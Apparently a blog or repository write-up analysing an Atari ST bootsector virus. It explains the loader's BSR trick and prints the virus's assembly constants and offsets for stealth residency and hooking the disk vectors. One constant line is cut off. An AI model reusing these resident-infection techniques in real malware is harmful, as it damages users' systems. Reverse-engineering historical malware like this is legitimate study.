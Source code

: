 So let's start.

### The Loader

First of all, important to notice, the executable bootsector entry point is not a traditional `BRA` (branch) but a `BSR` (branch sub routine). This is used to get the `DSKBUF` address where the bootsector is copied by the TOS directly in the stack. That's dumb but it took me time to understand the first instruction after the `BSR` (at this time I did not notice it was a `BSR`) :

```asm
MOVEA.L   (sp)+,A0
SUBQ.L    #2,A0
```

Basically, it means:
- Load `A0` with the address of `DSKBUF` + the `BSR`
- Go back of 2 bytes to be located before the `BSR` (it's a `BSR.B` so 2 bytes)

Then, this entry code will check that the virus in not yet installed in stealth memory (`MEMTOP - 0x200`) by checking:
- is the magic number (see details in the Ghost Virus post) set at the beginning to indicate a resident program
- is a custom virus ID (`VIRUS_ID: 0x07A31CDF) set a few bytes after (10) to distinguish the virus from any resident program using the same address.

If not the case, this first part of the code will branch the `INSTALL_RESIDENT_VECTOR` routine to install the virus.

So here is the bootsector loader with more details:

```asm
; ----------------------------------------------------------------------------------------------------------
; Constants
; ----------------------------------------------------------------------------------------------------------
FLOPPY_BUFFER               equ $4C6
RESIDENT_MAGIC              equ $12123456
RESIDENT_CHK                equ $5678
VIRUS_ID                    equ $07A31CDF
MEMTOP                      equ $436                ; long |End of TPA (user memory)                        |_memtop (0x0f8000 on 1040)
BOOTDEV                     equ $446                ; word |Default boot device,                            |_bootdev
                                                    ; This value represents the device from which the system was booted (0 = A:, 1 = B:, etc.)
HDV_MEDIACH                 equ $47E                ; long |Vector for hard disk media change               |hdv_mediach
HDV_BPB                     equ $472                ; long |Vector for getbpb for hard disk                 |hdv_bpb
BOOTSECTOR_START            equ $611E
GENERATION_TRIGGER          equ $14
GENERATION

; variables location
; translated from original listing
; OFFSET structure, 30 bytes data, matching the size of the bootsector reserved floppy descriptor
OFFSET_MAGIC_WORD           equ $0            ;vir_mem      dc.l #12123456  ; First magic long word
OFFSET_RESIDENT_ADDRESS     equ $04           ;             dc.l $000f7e00  ; Start address in memory
OFFSET_BRA                  equ $08           ;             bra  vir_head   ; The second installation phase begins with this branch. (INSTALL_RESIDENT_VECTOR)
OFFSET_VIRUS_ID             equ $0A           ;             dc.l $07a31cdf  ; 2nd magic long word
OFFSET_GENERATION           equ $0E           ;             dc.w $0010      ; Age of the virus
OFFSET_OLD_HDV_BPB          equ $10           ;             dc.l $00fc0de6  ; old vector hdv_bpb
OFFSET_OLD_HBD_MEDIACH      equ $14           ;             dc.l $00fc0f96  ; old vector hdb_mediach
```